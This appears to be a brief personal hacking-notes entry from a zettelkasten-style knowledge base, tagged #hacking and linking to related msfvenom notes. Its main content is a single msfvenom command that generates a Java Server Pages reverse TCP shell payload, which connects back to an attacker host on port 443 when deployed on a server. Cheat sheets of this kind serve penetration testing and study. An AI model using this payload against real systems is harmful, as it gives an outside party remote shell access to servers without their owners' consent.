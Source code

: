 # MSFVENOM Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

# Related

- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- [20221003150759](/zet/20221003150759/README.md) MSFVENOM Java Server Pages (.jsp) As .war
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
